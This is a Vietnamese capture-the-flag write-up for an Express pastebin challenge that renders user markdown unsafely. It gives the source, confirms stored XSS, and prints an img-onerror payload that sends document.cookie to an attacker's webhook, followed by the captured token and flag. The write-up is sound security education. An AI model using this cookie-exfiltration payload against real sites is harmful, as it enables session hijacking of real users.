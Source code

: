 # Đề bài:
![Screenshot (468)](https://github.com/ductohno/ehc-adward/assets/152991010/3028b1bc-7812-4bb3-9103-fac00d33e608)

- Giao diện trang web:

![Screenshot (469)](https://github.com/ductohno/ehc-adward/assets/152991010/9b23ac9d-4b99-4bf4-8c46-a37306f0a941)
# Source: 
```
const crypto = require('crypto')

const express = require('express')
const app = express()

const posts = new Map()

app.use(express.urlencoded({ extended: false }))

app.get('/', (_req, res) => {
    const placeholder = [
        '# Note title',
        'Content of the note. You can use *italics*!',
    ].join('\n')

    res.type('text/html').end(`
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>Pastebin</h1>
            <form action="/create" method="POST">
                <textarea name="content">${placeholder}</textarea>
                <button type="submit">Create</button>
            </form>
        </div>
    `)
})

app.get('/flag', (req, res) => {
    const cookie = req.headers.cookie ?? ''
    res.type('text/plain').end(
        cookie.includes(process.env.TOKEN)
        ? process.env.FLAG
        : 'no flag for you'
    )
})

app.get('/view/:id', (_req, res) => {
    const marked = (
        'https://cdnjs.cloudflare.com/ajax/libs/marked/4.2.2/marked.min.js'
    )

    res.type('text/html').end(`
        <link rel="stylesheet" href="/style.css">
        <div class="content">
        </div>
        <script src="${marked}"></script>
        <script>
            const content = document.querySelector('.content')
            const id = document.location.pathname.split('/').pop()

            delete (async () => {
                const response = await fetch(\`/content/\${id}\`)
                const text = await response.text()
                content.innerHTML = marked.parse(text)
            })()
        </script>
    `)
})

app.post('/create', (req, res) => {
    const data = req.body.content ?? ''
    const id = crypto.randomBytes(8).toString('hex')
    posts.set(id, data)
    res.redirect(`/view/${id}`)
})

app.get('/content/:id', (req, res) => {
    const id = req.params.id
    const data = posts.get(id) ?? ''
    res.type('text/plain').end(data)
})

app.get('/style.css', (_req, res) => {
    res.type('text/css').end(`
        * {
          font-family: system-ui, -apple-system, BlinkMacSystemFont,
            'Segoe UI', Roboto, 'Helvetica Neue', sans-serif;
          box-sizing: border-box;
        }

        html,
        body {
          margin: 0;
        }

        .content {
          padding: 2rem;
          width: 90%;
          max-width: 900px;
          margin: auto;
        }

        input:not([type='submit']) {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
        }

        textarea {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
          resize: vertical;
          font-family: monospace;
        }

        input[type='submit'] {
          margin-bottom: 16px;
        }


    `)
})

app.listen(3000)
```
# Hướng làm: 

- Nhìn bài này thì em nghĩ ngay đến xss vì theo như code, ta cần có cookie để vào được path /flag để lấy flag, thử thôi

# Khai thác:

- Trước tiên vẫn là phải thử:

![Screenshot (470)](https://github.com/ductohno/ehc-adward/assets/152991010/6e9af75e-619b-485f-986e-f2193081cef3)

- Và ngay lập thức thông báo hiện ra:

![Screenshot (471)](https://github.com/ductohno/ehc-adward/assets/152991010/73478682-da8e-46cb-9b43-1c1bf932e335)

- Xss confirm, giờ chúng ta sẽ chuyển payload thành ```<img src=0 onerror='document.location="Your_Link(webhook)?cmd="+document.cookie'/>``` để chuyển hướng
- Nên bật sẵn burp suite
- Sau khi bấm submit thì gửi link đó cho con bot

![Screenshot (472)](https://github.com/ductohno/ehc-adward/assets/152991010/5a711dda-9a77-4844-b6c5-349d005a88d0)

- Ta nhận được token:

![Screenshot (473)](https://github.com/ductohno/ehc-adward/assets/152991010/00d3670e-544d-4afc-9f3b-dbb30da68be6)

- token=d15453b0234690ccbb91861e
- Giờ thì truy cập vô /flag và dùng token kia là cookie

![Screenshot (474)](https://github.com/ductohno/ehc-adward/assets/152991010/1af54793-aae7-4cbe-b9cb-091699bbe520)

# Flag:
actf{b534186fa8b28780b1fcd1e95e2a2e2c}


